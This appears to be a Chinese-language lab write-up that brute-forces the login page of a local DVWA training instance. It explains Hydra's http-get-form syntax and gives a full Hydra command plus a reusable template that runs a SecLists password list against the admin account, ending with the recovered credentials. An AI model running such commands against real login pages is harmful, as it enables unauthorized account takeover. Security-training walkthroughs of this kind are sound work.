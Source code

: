 # Brute Force

## 觀察

觀察 URL parameters

```
http://localhost:8086/vulnerabilities/brute/?username=admin&password=123&Login=Login#
```

### 紀錄錯誤回應訊息

```
Username and/or password incorrect.
```

## 使用 Hydra 測試密碼

### Target URL
```
http://localhost:8086/vulnerabilities/brute/?username=qwe&password=123&Login=Login#
```
## Hydra options

### module: http-form-get

可以用 `hydra -U http-get-form` 閱讀一下 module 用法

```
hydra -U http-get-form
```

### http-form-get module syntax

```
Syntax: <url>:<form parameters>:<condition string>[:<optional>[:<optional>]
```

### path

```
/vulnerabilities/brute/?
```

### GET/POST 變數用 `^` 包住

```
:username=^USER^&password=^PASS^&Login=Login
```

### error message

```
:F=Username and/or password incorrect.
```

## brute force

### password lists

借用別人的 password list

SecLists/10-million-password-list-top-100.txt at master · danielmiessler/SecLists
[https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt)

```
hydra -V -l admin -P 10-million-password-list-top-10000.txt -s 8086 -f localhost http-form-get "/vulnerabilities/brute/?:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect."
```

## Hydra snippets

```
hydra -V -l <user> -P <password file> -s <port> -f <host> <module> "/vulnerabilities/brute/?:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect."
```

## Done 
```
帳號: admin
密碼: password
```

